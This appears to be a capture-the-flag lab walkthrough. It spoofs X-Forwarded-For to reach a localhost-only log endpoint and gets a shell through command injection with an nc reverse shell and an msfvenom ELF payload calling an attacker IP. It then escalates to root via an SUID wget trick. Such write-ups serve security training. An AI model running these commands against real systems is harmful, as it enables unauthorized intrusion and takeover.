
Available methods:
```
/version
/update
/logs
/restart
```
Using `/logs`

This means the access is denied for our host but maybe the localhost can access.

Intercept the request:


Now we can use `X-Forwarded-For` Header to spoof the localhost:


We have file read:


We have a user called *clumsyadmin*

We can create an ELF reverse shell executeable:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.229 LPORT=13337 -f elf > shell
```
Now start a python server:
```
python3 -m uploadserver 80
```
Now we can use `/update`:

But no shell when visiting */restart*. This is intended path but we do not get a shell.


Now we can get **main.py** using */logs*


We can try command injection:

Using payload:
```
nc 192.168.45.229 13337 -e /bin/bash
```

We get a shell:


Running linpeas:

We have wget as an SUID binary.
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```


